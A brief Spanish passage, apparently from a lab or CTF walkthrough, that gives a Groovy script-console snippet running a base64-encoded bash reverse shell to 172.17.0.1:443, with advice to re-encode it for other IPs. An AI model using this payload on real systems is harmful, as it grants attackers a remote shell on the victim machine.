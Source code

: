 
Una vez dentro, podemos ir al directorio scripts y poner lo siguiente:

def cmd = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYxCg}|{base64,-d}|{bash,-i}"
def process = cmd.execute()
process.waitFor()

Esto nos dará una bash por el puerto 443, ya que se la estamos pidiendo en base 64 a la ip 172.17.0.1, la host del docker, en caso de no ser docker, podemos editar el código en base64 para que nos lo de a otra ip.

